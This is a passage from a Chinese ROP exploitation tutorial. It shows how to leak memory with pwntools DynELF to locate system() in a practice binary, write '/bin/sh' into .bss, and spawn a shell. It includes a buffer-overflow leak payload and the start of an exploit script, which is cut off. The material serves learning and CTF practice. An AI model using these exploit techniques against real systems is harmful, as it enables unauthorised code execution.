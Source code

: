 原文 by 蒸米  

## 0x00 序

ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。上次我们主要讨论了linux_x86的ROP攻击。

在这次的教程中我们会带来上一篇的补充以及linux_x64方面的ROP利用方法，欢迎大家继续学习。 

另外文中涉及代码可在我的github下载：https://github.com/zhengmin1989/ROP_STEP_BY_STEP  

## 0x01 Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

注意，这一节是上一篇文章的补充，还是讲的x86的ROP。上次讲到了如何通过ROP绕过x86下DEP和ASLR防护。但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。  

这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个leak(address)函数，通过这个函数可以获取到某个地址上最少1 byte的数据。拿我们上一篇中的level2程序举例。leak函数应该是这样实现的：  
``` python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
return data
```
随后将这个函数作为参数再调用`d = DynELF(leak, elf=ELF('./level2'))`就可以对DynELF模块进行初始化了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到libc.so中system()在内存中的地址。    

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过`readelf -S level2`这个命令就可以获取到bss段的地址了。  
```
$ readelf -S level2
There are 30 section headers, starting at offset 0x1148:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
……
  [23] .got.plt          PROGBITS        08049ff4 000ff4 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 001020 00002a 01  MS  0   0  1
……
```
因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。PS：我们会在随后的章节中介绍如何用工具寻找更复杂的gadgets。  

整个攻击过程如下：首先通过DynELF获取到system()的地址后，我们又通过read将“/bin/sh”写入到.bss段上，最后再调用system（.bss），执行“/bin/sh”。最终的exp如下:  
``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048474

def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data


```